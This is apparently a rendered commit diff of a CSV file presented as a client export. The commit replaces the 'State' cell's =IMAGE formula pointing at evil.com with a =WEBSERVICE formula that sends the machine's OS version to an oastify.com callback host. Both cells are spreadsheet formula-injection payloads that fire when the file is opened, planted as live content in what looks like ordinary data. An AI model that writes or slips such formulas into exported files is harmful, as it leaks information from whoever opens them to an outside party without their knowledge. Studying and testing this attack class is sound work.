

Before and after one commit to syed-ali-abbas/_, a CSV file: Clients-export-12192024(1).csv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update Clients-export-12192024(1).csv

```diff
--- a/Clients-export-12192024(1).csv
+++ b/Clients-export-12192024(1).csv
-I2 (State): =IMAGE("https://evil.com/a.png")
+I2 (State): =WEBSERVICE("http://zqt90y2xj9k0z23hsu4n5pem5db4zvnk.oastify.com/?"&INFO("osversion"))
```
